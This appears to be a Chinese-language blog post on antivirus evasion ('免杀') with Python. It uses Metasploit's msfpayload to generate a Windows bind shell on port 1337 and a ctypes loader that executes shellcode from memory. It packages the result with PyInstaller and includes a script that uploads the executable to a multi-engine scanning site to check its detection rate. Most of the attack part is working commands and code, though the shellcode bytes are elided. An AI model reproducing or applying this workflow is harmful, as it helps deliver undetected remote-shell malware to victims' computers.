 ```yaml
---
title: 'Using Python to implement anti-killing'
date: 2024-12-23
permalink: /posts/2024/12/Using Python to implement anti-killing/
tags:
  - python
  - cybersecurity
---
```

## 用 Python 实现免杀

被命名为“火焰”（Flame）的恶意软件，在用被称为 Beetlejuice、Microbe、Frog、Snack 和 Gator 的 Lua 脚本编译后，该恶意软件可以通过蓝牙标识出被其侵入的计算机、秘密录音，入侵附近的计算机并往远程命令和控制服务器上传屏幕截图和数据。大多数杀毒引擎仍在使用基于特征码的检测作为主要的检测手段。

## 免杀的过程

在 Metasploit 框架中包含有一个恶意代码库。使用 Metasploit 生成 C 语言风格的一些 shellcode 作为恶意载荷。

```shell
# msfpayload windows/shell_bind_tcp LPORT=1337 C
```

要写一段用来执行这段 C 语言风格的 shellcode 脚本。Python 支持导入其他语言的函数库，导入 ctypes 库——这个库使我们能用 C 语言中的数据类型。

```python
from ctypes import *
shellcode = ("...")
memory_with_shell = create_string_buffer(shellcode, len(shellcode))
shell = cast(memory_with_shell, CFUNCTYPE(c_void_p))
shell()
```

下一步，使用 Pyinstaller 生成 Windows PE（portable executable）格式的可执行文件。

### 免杀验证

使用 `vscan.novirusthanks.org` 的服务来扫描可执行文件。NoVirusThanks 提供了一个 Web 网页界面，可以上传可疑文件，然后用多种不同的杀毒引擎扫描它。可以编写一个小巧的 Python 脚本自动完成这一步骤。在通过 Web 网页界面交互时，抓取一个 tcpdump 抓包文件，利用 httplib 库进行编写。

注意 boundary 字段，是用来分隔文件内容和数据包中其他内容的

```python
def upload_file(file_name):
    print("[+] Uploading file to NoVirusThanks...")
    file_contents = open(file_name, "rb").read()
    header = {
      "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryF17rwCZdGuPNPT9U"
    }
    params = "----WebKitFormBoundaryF17rwCZdGuPNPT9U"
    params += '\r\nContent-Disposition: form-data; name="upfile"; filename="{}"'.format(file_name)
    params += '\r\nContent-Type: application/octet stream\r\n\r\n'
    params += file_contents
    params += '\r\n------WebKitFormBoundaryF17rwCZdGuPNPT9U'
    params += '\r\nContent-Disposition: form-data; name="submitfile"\r\n'
    params += "------WebKitFormBoundaryF17rwCZdGuPNPT9U--\r\n"
    conn = httplib.HTTPConnection("vscan.novirusthanks.org")
    conn.request("POST", "/", params, header)
    response = conn.getresponse()
    location = response.getheader("location")
    conn.close()
    return location
```

接下来写一个把我们上传的可疑文件的扫描结果打印出来的 Python 脚本。首先，脚本要连接到 “file” 页面，它会返回一个 “正在进行扫描” 的消息。一旦这个页面返回一个 HTTP 302，就重定向到分析结果页面，可以使用一个正则表达式读取发现率，并把 CSS 代码用空白字符串替换掉。

```python
def print_results(url):
    status = 200
    host = url_parse(url)[1]
    path = url_parse(url)[2]
    if "analysis" not in path:
        while status != 302:
            conn = httplib.HTTPConnection(host)
            conn.request("GET", path)
            resp = conn.getresponse()
            status = resp.status
            print("[+] Scanning file...")
            conn.close()
            time.sleep(15)
	print("[+] Scan Complete.")
    path = path.replace("file", "analysis")
    conn = httplib.HTTPConnection(host)
    conn.request("GET", path)
    resp = conn.getresponse()
    data = resp.read()
    conn.close()
    re_results = re.findall(r"Detection rate:.*\) ", data)
    html_strip_res = re_results[1].replace("&lt;font color='red'&gt;", '').replace("&lt;/font&gt;", "")
    print("[+] {}".format(html_strip_res))
```

使用默认的 Metasploit 编码器把它编码到一个标准的 Windows 可执行文件中。这个文件显然无法逃过正常的杀毒软件的查杀

```shell
$ msfpayload windows/shell_bind_tcp LPORT=1337 X > bindshell.exe
```